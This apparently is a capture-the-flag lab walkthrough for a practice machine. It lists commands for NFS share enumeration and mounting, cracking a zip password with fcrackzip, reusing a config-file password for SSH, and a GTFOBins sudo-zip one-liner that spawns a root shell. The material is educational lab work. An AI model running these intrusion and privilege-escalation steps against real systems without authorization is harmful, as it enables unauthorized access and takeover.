 - 1 - Scan with Nmap
- 2 - Notice the port 2049 is operation nfs_acl (Much like samba is a network file share)
- 3 - we can check the directory that is being used for the share system using "showmount -e "192.168.0.35" and we find a path "/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16"
- 4 - We can now moutn this directory into our machine using "sudo mount -t nfs 192.168.0.35:/srv/nfs /mnt/dev" and we now have a save.zip file in our machine from the target machine using the file share system. 
- 5 - We can unzip using "unzip save.zip" but we require a password. 
- 6 - We can install a tool called "fcrackzip" using "sudo apt install fcrackzip" and find the password using "fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip" and we find the password being "java101" and we have the files "id_rsa" and "todo.txt"
- 7 - we can try connecting via ssh using the "ssh -i id_rsa jpª192.168.0.35" but we need a password (used jp because the todo.txt is signed by "jp").
- 8 - Using Dirbuster we can list the directories of both port 80 and port 8080.
	- For Port 80 we find a directory called app. 
		- app/config/configuration.yml containing password and username for a database (see notes).
	-  Port 8080 - dev
		- A dev website being ran using boltwire
- 9 -We can seacrh online "boltwire exploit" and we find  https://www.exploit-db.com/exploits/48411
	- We need to be authenticated to use this exploit.
	- We find that the only user appart form root is "jeanpaul"
- 10 - We can re attemp to login using ssh "ssh -i id_rsa jeanpaulª192.168.0.35" and try the password from the configuration.yml file "I_love_java" and we log in. 
- 11 - Good thing to look at when login in as a low level user:
	- "history" - someone cleaned the history 
		- echo "" > .bash_history 
	- "sudo -l" - we can use zip.
		- We check User jeanpaul may run the following commands on dev:
		    (root) NOPASSWD: /usr/bin/zip
- 12 - Now we know that we can use "zip", but how can we use it to escalate our previlages? We can use GTFOBins https://gtfobins.github.io/ 
	- We click on SUDO (because we can use sudo for zip) and search for zip. https://gtfobins.github.io/gtfobins/zip/
- 13 - We find on that page the Sudo section and there is code to be copied and used. When using the code we enter in a shell with root previlages and are able to cat the flag on root directory. 
	"  TF=$(mktemp -u)
	 sudo zip $TF /etc/hosts -T -TT 'sh #' "
